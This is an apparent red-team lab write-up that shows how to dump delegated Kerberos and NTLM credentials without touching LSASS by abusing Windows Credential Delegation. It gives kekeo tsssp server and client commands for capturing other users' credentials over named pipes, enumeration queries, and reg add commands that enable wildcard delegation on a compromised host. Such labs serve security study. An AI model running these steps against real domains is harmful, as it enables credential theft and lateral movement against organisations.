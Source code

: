 # Dumping Delegated Default Kerberos and NTLM Credentials w/o Touching LSASS

This lab is related to dumping cached Kerberos and NTLM passwords without touching LSASS. This is possible due to Active Directory feature called Credentials Delegation.

## Credential Delegation

Credential Delegation is a feature that allows domain administartors to authorize certain machines or to be more precise - certain SPNs, to accept delegated passwords. In other words, this means that certain services on certain machines can be set to allow users to authenticate without the need to supply their credentials interactively - almost like a Single Sign On.

To illustrate - the below shows how a user spotless@offense attempts to access the termsrv/ws2.offense.local and is prompted to enter his credentials - this means credential delegation is not set for the termsrv \(RDP\) on ws02$ and therefore the machine ws02 does not accept delegated passwords, which results in a password prompt for the user.

{% hint style="info" %}
Default Password is a currently logged on user's password.
{% endhint %}

![](../../.gitbook/assets/annotation-2019-08-20-224950.png)

If the Credentials Delegation was enabled as shown below: 

![](../../.gitbook/assets/annotation-2019-08-20-225941.png)

...the machines that are running a termsrv \(RDP\) service would now be allowed to authenticate users who are delegating their credentials. 

Below shows how the same user spotless is attempting to connect to RDP on ws02 and gets authenticated immediately without being prompted for the password - this means that the user's credenentials were delegated and the termsrv/ws2.offense.local accepted them due to the GPO change we described earlier whereby Credential Delegation was enabled:

![](../../.gitbook/assets/rdp-password-delegation.gif)

## Dumping Kerberos Credentials

If credential delegation is set up, credentials can be dumped without touching lsass with a tool called kekeo.

Let's spin up a tsssp named pipe server where targets of whom the credentials we want to steal, will connect to, on the compromised workstation ws01 \(running as SYSTEM\):

{% code-tabs %}
{% code-tabs-item title="attacker@ws01.offense.local" %}
```text
// needs to run as NT SYSTEM
tsssp::server
```
{% endcode-tabs-item %}
{% endcode-tabs %}

{% hint style="info" %}
Kekeo on ws01 must be running as NT\SYSTEM for this to work
{% endhint %}

Now, let's connect to the tsssp server on ws01 from the target computer ws02 \(we want currently logged on user's from ws02 credentials to be stolen by being sent to the tsssp server on ws01 over the named pipe\):

{% code-tabs %}
{% code-tabs-item title="attacker@ws02.offense.local" %}
```text
tsssp::client /target:termsrv/ws01.offense.local /pipe:\\ws01.offense.local\pipe\kekeo_tsssp_endpoint
```
{% endcode-tabs-item %}
{% endcode-tabs %}

![](../../.gitbook/assets/password-delegation-password-dump-via-named-pipes.gif)

## Dumping NTLM Credentials

The same technique applies to NTLM authentication. For the technique to work with NTLM credentials, below needs to be enabled in AD in Computer Configuration &gt; Policies &gt; Administrative Templates &gt; System &gt; Credential Delegation:

![](../../.gitbook/assets/image%20%2888%29.png)

Differently from dumping kerberos credentials, the NTLM delegated credential dumping attack can be performed locally on the target system - we only need two kekeo instances running as low privileged users, unlike with kerberos credential dumping where the tsssp server had to be running as SYSTEM.

Let's spin up the server on one console:

{% code-tabs %}
{% code-tabs-item title="attacker@ws02" %}
```text
// running as ws02\spotless
tsssp::server
```
{% endcode-tabs-item %}
{% endcode-tabs %}

And connect to it from another console:

{% code-tabs %}
{% code-tabs-item title="attacker@ws02" %}
```text
// running as ws02\spotless
tsssp::client /target:termsrv/ws02.offense.local
```
{% endcode-tabs-item %}
{% endcode-tabs %}

Below shows \(left\) a tsssp server is created on the ws02 system running under spotless user's context. On the right, another console running as ws02\spotless which is then connected to the `\\.\pipe\kekeo_tsssp_endpoint` named pipe, revealing user's `ws02\spotless` NTLM credentials in the console running tsssp server on the left:

![](../../.gitbook/assets/image%20%28163%29.png)

## Enumerating Delegated Credentials Locally

Once on the box, we can check if credential delegation is turned on:

```text
reg query HKLM\SOFTWARE\Policies\Microsoft\Windows\CredentialsDelegation
```

Below shows what credential delegation is enabled on the system \(represented with 0x1\):

![](../../.gitbook/assets/image%20%2842%29.png)

We can then check what SPNs accept delegated credentials:

```text
HKEY_LOCAL_MACHINE\SOFTWARE\Policies\Microsoft\Windows\CredentialsDelegation\AllowDefaultCredentials
```

Below shows that the box we have access to is allowed to delegate credentials to all termsrv SPNs - all RDP services:

![](../../.gitbook/assets/image%20%2849%29.png)

## Enumerating Delegated Credentials via AD

```csharp
gpresult /h report.html
# or Get-GPOReport if you have access to AD admin tools
```

![](../../.gitbook/assets/image%20%2840%29.png)

Additionally, we can use [Parse-Polfile](https://github.com/PowerShell/GPRegistryPolicyParser) to parse the registry.pol of the linked GPO. First of, let's find the GPO that is being applied to the user spotless:

```text
Get-NetGPO -UserIdentity spotless
```

![](../../.gitbook/assets/image%20%2881%29.png)

and then parse the policy file:

```text
Parse-PolFile -Path "\\offense.local\sysvol\offense.local\Policies\{31B2F340-016D-11D2-945F-00C04FB984F9}\MACHINE\Registry.pol"
```

![](../../.gitbook/assets/image%20%2877%29.png)

## Enabling Credential Delegation

If you have admin rights on the compromised box, you can enable all credential delegation like so:

{% code-tabs %}
{% code-tabs-item title="attacker@target" %}
```csharp
reg add HKLM\SOFTWARE\Policies\Microsoft\Windows\CredentialsDelegation /v AllowDefaultCredentials /t REG_DWORD /d 1
reg add HKLM\SOFTWARE\Policies\Microsoft\Windows\CredentialsDelegation /v ConcatenateDefaults_AllowDefault /t REG_DWORD /d 1
reg add HKLM\SOFTWARE\Policies\Microsoft\Windows\CredentialsDelegation\AllowDefaultCredentials /v 1 /t REG_SZ /d "*"
reg add HKLM\SOFTWARE\Policies\Microsoft\Windows\CredentialsDelegation /v AllowDefCredentialsWhenNTLMOnly /t REG_DWORD /d 1
reg add HKLM\SOFTWARE\Policies\Microsoft\Windows\CredentialsDelegation /v ConcatenateDefaults_AllowDefNTLMOnly /t REG_DWORD /d 1
reg add HKLM\SOFTWARE\Policies\Microsoft\Windows\CredentialsDelegation\AllowDefCredentialsWhenNTLMOnly /v 1 /t REG_SZ /d "*"

# delete all
reg delete HKLM\SOFTWARE\Policies\Microsoft\Windows\CredentialsDelegation /f
```
{% endcode-tabs-item %}
{% endcode-tabs %}

## References

{% embed url="https://clement.notin.org/blog/2019/07/03/credential-theft-without-admin-or-touching-lsass-with-kekeo-by-abusing-credssp-tspkg-rdp-sso/" %}

{% embed url="https://github.com/PowerShell/GPRegistryPolicyParser" %}

